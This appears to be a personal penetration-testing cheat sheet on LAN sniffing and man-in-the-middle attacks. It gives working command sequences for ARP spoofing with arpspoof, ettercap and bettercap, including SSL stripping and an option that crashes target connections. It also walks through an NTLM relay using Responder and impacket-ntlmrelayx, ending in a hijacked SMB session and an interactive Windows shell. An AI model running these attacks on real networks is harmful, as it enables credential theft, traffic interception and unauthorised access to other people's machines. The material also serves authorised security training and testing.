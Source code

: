 > Intercepting traffic for sniffing or MITM attacks on a client

## Basics

| Service | Ports |
| - | - |
| `arp` | no port, as its on layer 2 |
| `DHCP` | dst: 67(udp), src: 68(udp) |

### ARP
> Adress Resolution Protocol, translation of IP to MAC addresses

If an IP packet is being sent, the client checks it's `ARP` table and if the IP is there places the linked MAC into the layer 2 dst address field in the frame. If the IP cannot be resolved an `ARP` request is sent in the LAN.

Request contains: source IP, source MAC, dst IP, dst MAC `FF:FF:FF:FF:FF:FF` (indicates broadcast msg) of the frame -> the `ARP` request itself has `00:00:00:00:00:00` as dst mac. 

`ARP` requests are triggered when:
- Comm. inside LAN (get target MAC)
- Comm. over LAN boundary (get GW MAC)
- FWD Router 2 Router
- Router delivers packet to destination host  

| `gratuitious ARP` |
| - |
| Meaning packets are sent pre-emptively from a host with his information to the broadcast address, so all paricipants get the info |

### DHCP
> Service to supply IP addresses to clients in a broadcast domain

Communication takes place in a broadcast domain, also the client initiates the communication.  

1. client: `dhcpdiscover` - requesting an IP via broadcast message
2. server: `dhcpoffer` - answer with IP and lease time, again via broadcast
3. client: `dhcprequest` - answer to the chosen server (still broadcast)
4. server: `dhcpack` - confirm the IP to the client (last broadcast)

Above messages are for IPv4

### IP forwarding

> in order to intercept the traffic without it being dropped, the packets we intercept from other clients must still be forwarded from our machine. 
> For this we can enable IP forwarding on our machine to have them intercepted and forwarded as if nothing has happened...

```bash
sudo -i
# enable ip forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
```


## Sniffing
> Bevore or shortly after an attempt for a MITM attack is made, the traffic should either be saved or sniffed in realtime.

- `wireshark` --> obviously able to store/dump/analyze the traffic at runtime or later on
- `tcpdump` 

```bash
sudo tcpdump -i <interface> -w <pcapfile>  # Intercept traffic and store in file
sudo tcpdump -i <interface> -xxAXXSs 0 dst <targetIP>  # Intercept, filter on dst address and hex+ASCII output on console
```


- `dsniff` --> does not always show everything...

```bash
dsniff -i <interface>  # intercepts traffic on interface and shows sniffed credentials and stuff
```


-> Most of the intercepting tools of MITM attacks also have the ability to sniff/analyze/display the traffic intercepted (see next section)

## MITM tools

> Utilizing `arp` or `DHCP` spoofing, these tools allow the placement of the attacker inbetween to hosts to intercept traffic and analyze it (mostly unencrypted traffic).

### ettercap

```bash
sudo ettercap -G  # start GUI mode
```

`ettercap` allows for 2 modes
- unified: sniffs on all packets on the specified interface
- bridged: sniffs on specified interface and forwards it to the 2nd one specified  

1. Scan for live hosts on the network
	- GUI: `Menu -> Hosts -> Scan for hosts`
2. Display found hosts
	- GUI: `Menu -> Hosts -> Host list`
3. Select the target host(s) and
	- GUI: `Select host -> Add to Target {1,2}` 

**Important:** As all traffic of the targets will be processed, add them sparingly

4. Start the attack
	- GUI: `Globe button -> <attackType>` 

> The two hosts which are ought to be attacked, should be placed in different target groups!

### arpspoof

> Poisons the arp table of the targeted host(s) to place the attacker interface with its MAC instead of the other conversational partner (and vice versa to have full duplex interception)

```bash
# Terminal 1
sudo arpspoof -i <interface> -t <targetIP> <targetIP2>

# Terminal 2
sudo arpspoof -i <interface> -t <targetIP2> <targetIP>
```

Both must be run, otherwise the traffice is only intercepted in one way.  

**important:** You need to have ip forwardings set (see [[Sniffing and MITM#IP forwarding]]), otherwise the intercepted traffic will end at your machine. With forwarding on you are forwarding the packets to their proper destination (while also dumping it via tcpdump or wireshark).

- Also has no capability of analyzing or saving the traffic either use `tcpdump` or `wireshark` to store intercepted traffic

### bettercap

> Powerful tool for analyzing and intercepting traffic in a WIFI environment or LAN

0. Start `bettercap` in cli mode

```bash
sudo bettercap -iface <interface>
```

1. Discover hosts in the network in order to include them in attacks/analysis

```bash
> net.recon on  # enable recon module
> net.probe on  # enable probing and wait few seconds for discovery of hosts
> net.probe off # disable probing
> net.show      # show discovered hosts
```

2. Configure and start arp spoofing

```bash
> set arp.spoof.targets <targetIP>  # or multiple (comma seperated) / iprange
> set arp.spoof.fullduplex true # spoofs also the gateway so MITM can be done
> arp.ban on    # target conectivity will no longer work (crashes connections)
> arp.spoof on  # exploit
```

3. Enable local sniffing and check intercepted traffic

```bash
> net.sniff on  # enables sniffing and display of interesting stuff in cli
> set net.sniff.output /root/mitm.pcap  # store the traffic
> help  # show currently enabled modules
```

4. Enable intercepting of https traffic via ssl stripping

```bash
> set http.proxy.sslstrip true  # enable sslstrip for https interception
> http.proxy on  # turn http proxy on
```

**INTERESTING:** You may use `arpspoof` for `arp` poisoning but have sniffing on in `bettercap` to analyze the traffic.

Also for help use either the autocompletion of the tool (`tab` is your friend) or use the `help` command:

```bash
> help arp.spoof
```


### Responder and ntlmrelayx

> Aim for this attack is to poison the victim so their connections are forwarded over the attacker station and relayed to the initial destination of an `smb` connection for example.

In order to intercept the connection and hijack it later on, we need connection attemps from the client which are successfull against a target.

0. Prerequisites:

- `SMB signing` has to be off!

```bash
python /usr/share/responder/tools/RunFinger.py -i <targetIP>  # see below
[SMB2]:['10.0.10.4', Os:'Windows 7/Server 2008R2', Build:'7601', Domain:'DUMMY-PC', Bootime: '2023-01-20 08:27:47', Signing:'False', RDP:'False', SMB1:'True', MSSQL:'False']
```

1. Start `impacket-ntlmrelayx` in order to forward the requests to the target destination

```bash
# Terminal 1
impacket-ntlmrelayx -socks -smb2support -tf <fileWithSMBshareIPs> --output-file <file2save> # or -t <targetIP> instead of -tf
```

2. Start `responder` and poison the victim so it sends the request to the attacker

```bash
# configure responder
sudo nano /etc/responder/Responder.conf
> SMB = Off
> HTTP = Off
```

```bash
# Terminal 2
sudo responder -I <interface> -wd
```

3. Check in the cli of `impacket-ntlmrelayx` if sessions have been hijacked

```bash
# Terminal 1
> socks
> Protocol Target Username AdminStatus Port
> -------- ------------- ----------------- ----------- ----
> SMB 172.16.23.101 ELS-CHILD/DMANUEL TRUE 445  # usable sessions
> SMB 172.16.23.103 <domain>/<user> FALSE 445 # unusable
```

4. "connect" to the hijacked sessions via socks proxy provided by `impacket-ntlmrelayx`

```bash
proxychains -q impacket-smbexec <domain>/<user>:<rndPW>@172.16.23.101  # pw can be left empty
```

5. An interactive sessions to the windows shell should be open now